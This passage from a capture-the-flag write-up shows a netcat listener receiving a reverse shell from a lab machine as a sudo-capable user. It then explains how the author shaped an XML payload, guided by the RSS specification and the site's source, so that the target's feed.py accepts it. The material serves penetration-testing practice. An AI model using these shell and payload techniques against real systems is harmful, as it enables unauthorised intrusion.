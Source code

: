 Post that string, and:

```

root@kali# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.91] 43402
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1002(roosa) gid=1002(roosa) groups=1002(roosa),4(adm),27(sudo)

```

### RSS Spec

I used the RSS feed from this blog to build an XML payload that would validate when submitted to the server. An alternative path would be to look at the [w3 specification for RSS](https://validator.w3.org/feed/docs/rss2.html#hrelementsOfLtitemgt), where it defines items:

> Elements of <item>
>
> A channel may contain any number of <item>s. An item may represent a “story” – much like a story in a newspaper or magazine; if so its description is a synopsis of the story, and the link points to the full story. An item may also be complete in itself, if so, the description contains the text (entity-encoded HTML is allowed), and the link and title may be omitted. All elements of an item are optional, however at least one of title or description must be present.

It lists valid elements, including author.

So if I try building an xml payload to match this spec, but also taking into account the elements the site says should be there, I’ll end up with something like this:

```

<item>
<Author>0xdf</Author>
<Subject>Testing</Subject>
<Content>This is a test</Content>
</item>

```

It turns out that this will also submit just fine to feed.py. In fact, if I change `<item>` to `<df>`, it works as well.

The source for the site shows that it takes the top element as `object` no matter what it’s name is, and then references child objects for ‘Author’, ‘Subject’, and ‘Content’.